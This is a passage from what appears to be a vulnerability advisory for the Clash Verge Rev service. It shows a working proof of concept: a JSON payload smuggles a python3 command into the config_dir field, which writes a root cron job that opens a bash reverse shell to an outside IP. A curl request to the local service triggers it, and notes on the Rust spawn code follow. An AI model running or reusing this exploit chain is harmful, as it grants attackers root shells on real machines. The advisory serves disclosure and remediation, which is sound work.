 ```bash
  "config_dir": ";python3 -c \"open('/etc/cron.d/rev_shell','w').write(\\\"* * * * * root bash -c 'bash -i >& /dev/tcp/192.168.108.129/4444 0>&1'\\n\\\");\"; rm /tmp/rce_file;",
  "config_file":"/dev/null",
  "log_file":   "/tmp/rce_file"
}
EOF

curl --proxy http://192.168.108.129:7897 -XPOST http://127.0.0.1:33211/start_clash \
  -H 'Content-Type: application/json' \
  -d '{"bin_path": "/bin/zsh","config_dir": "/tmp/rce_file","config_file": "/dev/null","log_file": ""}'
```

### Discussion

1. A command injection vulnerability, CVE-2024-24576, exists in older versions of Rust on Windows. Consequently, older builds of Clash Verge Rev compiled with a vulnerable Rust toolchain may be susceptible to a more direct and straightforward reverse shell exploit. Beyond this specific Rust vulnerability, the core issue of arbitrary process execution could also be chained with various LOLBAS as an alternative vector for achieving reverse shell.
2. After the log is flushed, the output of the Command is appended after the "Spawning process..." line. Setting bin_path directly to a script (e.g., evil.sh) will fail. This is because, without a shebang (#!/bin/bash), the underlying OS cannot determine which interpreter to use. Attempting to explicitly call it via bash evil.sh would also fail, as the -d argument passed by the service would be misinterpreted as an invalid option by bash itself.

```Rust
let _ = writeln!(log, "Spawning process: {} {}", command, args.join(" "));
    log.flush()?;

let child = Command::new(command)
    .args(args)
    .stdout(Stdio::from(log))
    .stderr(Stdio::null())
    .spawn()?;
```
Thanks to [@Esonhugh](https://github.com/Esonhugh) for suggesting that `zsh` can be used to execute commands successfully under these conditions.

## Reference

* [DNS Rebinding in Browser](https://mp.weixin.qq.com/s/jiX1zC5_1y9tipYzM8Oxdg)
* https://www.oligo.security/blog/0-0-0-0-day-exploiting-localhost-apis-from-the-browser
* https://www.wiz.io/blog/seleniumgreed-cryptomining-exploit-attack-flow-remediation-steps

## Solution

Update to the Latest Version.
